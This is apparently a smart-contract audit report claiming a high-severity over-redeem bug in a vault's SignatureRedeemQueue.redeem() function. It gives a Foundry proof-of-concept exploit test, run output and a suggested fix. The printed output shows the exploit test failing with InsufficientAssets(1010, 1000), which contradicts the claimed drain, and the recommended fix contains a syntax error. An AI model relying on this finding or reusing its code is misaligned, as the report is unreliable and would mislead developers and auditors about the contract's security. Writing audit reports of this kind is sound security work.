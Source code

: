 ### [H-02] Missing validation of requested amount allows over-redeem in redeem() function

_Severity:_ High

_Source:_ https://github.com/sherlock-audit/2025-07-mellow-flexible-vaults-Yahaya-Salisu/blob/main/flexible-vaults%2Fsrc%2Fqueues%2FSignatureRedeemQueue.sol#L13-L28


### Summary
The `redeem()` function in `signatureRedeemQueue.sol` extents `signatureQueue` to enable instant share redemption from a vault without the usual delay of on-chain oracle processing.

The function calls `validateOrder()` and both of the functions do not check if the `requested > ordered`, meaning that if a user calls `redeem()` with a requested amount that exceeds ordered amount, the redemption will still proceed even if the `requested > ordered`, this allows users to potentially drain the vaults

```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

  // ⚠️ BUG: there's no check to ensure requested <= ordered
        if (order.requested > vault_.getLiquidAssets()) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

// burns the shares without checking if requested > ordered
        vault_.shareManager().burn(order.recipient, order.ordered);

           ...

        emit OrderExecuted(order, signatures);
    }
```

This bug is similar in nature to `[H-01]` found in `RedeemQueue.sol`, but due to the separation of contract logic and exploit surface, this report addresses a distinct instance.


### Internal Preconditions
If a trusted party like admin or validator has signed a message granting a user an ordered amount, which can be redeemed via SignatureRedeemQueue.redeem().


### External Preconditions
A user has to get signed ordered amount first and then calls `redeem()` with a `requested > ordered`.


### Attacker Path
1. A user got a valid signed order for `1,000`.
2. And then modifies requested amount to `1,010` even though the signed ordered is `1000`.
3. And the user calls `redeem()` with valid signatures and redemption succeeds as long as vault has >= 1,010 in liquid assets.


### Impact:
This vulnerability allows a user to redeem more assets than they are allowed to redeem, and inflating their authorized withdrawal by exploiting a missing validation. This leads to permanent imbalance in the vault, dilution of shares, and potential loss of funds for other users.


### Proof of concept:
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.25;

import "../../Fixture.t.sol";
import "../../Imports.sol";
import "forge-std/console.sol";

contract SignatureRedeemQueueTest is FixtureTest {
    address vaultAdmin = vm.createWallet("vaultAdmin").addr;
    address vaultProxyAdmin = vm.createWallet("vaultProxyAdmin").addr;
    address user = vm.createWallet("user").addr;
    address asset;
    address[] assetsDefault;

    function setUp() external {
        asset = address(new MockERC20());
        assetsDefault.push(asset);
    }

    function testRedeem() external {
        Deployment memory deployment = createVault(vaultAdmin, vaultProxyAdmin, assetsDefault);

        uint256 signerPk = uint256(keccak256("signer"));
        address signer = vm.addr(signerPk);
        address[] memory signers = new address[](1);
        signers[0] = signer;
        (Consensus consensus,) = createConsensus(deployment, signers);
        SignatureRedeemQueue queue =
            SignatureRedeemQueue(addSignatureRedeemQueue(deployment, vaultProxyAdmin, asset, address(consensus)));

        uint256 amount = 1000;
        uint256 requested = 1000 + 10;

        ISignatureQueue.Order memory order = ISignatureQueue.Order({
            orderId: 1,
            queue: address(queue),
            asset: asset,
            caller: user,
            recipient: user,
            ordered: amount,
            requested: requested,
            deadline: block.timestamp + 1 days,
            nonce: 0
        });
        IConsensus.Signature[] memory signatures = new IConsensus.Signature[](1);
        signatures[0] = signOrder(queue, order, signerPk);
        {
            Oracle oracle = deployment.oracle;
            IOracle.Report[] memory reports = new IOracle.Report[](1);
            uint224 price = 1e18;
            reports[0] = IOracle.Report({asset: asset, priceD18: price});
            vm.startPrank(vaultAdmin);
            oracle.submitReports(reports);
            oracle.acceptReport(asset, price, uint32(block.timestamp));
            vm.stopPrank();
        }

        vm.prank(address(queue));
        deployment.shareManager.mint(user, amount);
        MockERC20(asset).mint(address(deployment.vault), amount);
        
        console.log("Vault token balance:", MockERC20(asset).balanceOf(address(deployment.vault)));
        console.log("Requested:", order.requested);
        console.log("Ordered:", order.ordered);

        vm.prank(user);
        queue.redeem(order, signatures);

        assertEq(MockERC20(asset).balanceOf(user), requested, "User should receive assets");
    }

    function signOrder(SignatureQueue queue, ISignatureQueue.Order memory order, uint256 pk)
        internal
        view
        returns (IConsensus.Signature memory)
    {
        bytes32 hash = queue.hashOrder(order);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, hash);
        return IConsensus.Signature({signer: vm.addr(pk), signature: abi.encodePacked(r, s, v)});
    }
}
```


Run test with
```bash
forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
```

Test Output

![PoC]
(https://github.com/user-attachments/assets/f9bc1703-a3b6-419e-82b7-b4e27809b55f)

```bash
$ forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
[⠘] Compiling...
[⠑] Compiling 1 files with Solc 0.8.25
[⠃] Solc 0.8.25 finished in 49.63s
Compiler run successful!

Ran 2 tests for test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[PASS] test() (gas: 185)
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)
Logs:
  Vault token balance: 1000
  Requested: 1010
  Ordered: 1000

Traces:
  [39807988] SignatureRedeemQueueTest::testRedeem()

                               ...

│   │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    └─ ← [Revert] InsufficientAssets(1010, 1000)

Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 39.77ms (31.57ms CPU time)

Ran 1 test suite in 4.12s (39.77ms CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)

Encountered a total of 1 failing tests, 1 tests succeeded
```



### Recommendation:
```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

// FIX: after checking vault liquidAsset, check if requested > ordered 
        if (order.requested > vault_.getLiquidAssets(), || order.requested > order.ordered) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

        vault_.shareManager().burn(order.recipient, order.ordered);
      ...
        emit OrderExecuted(order, signatures);
    }
```
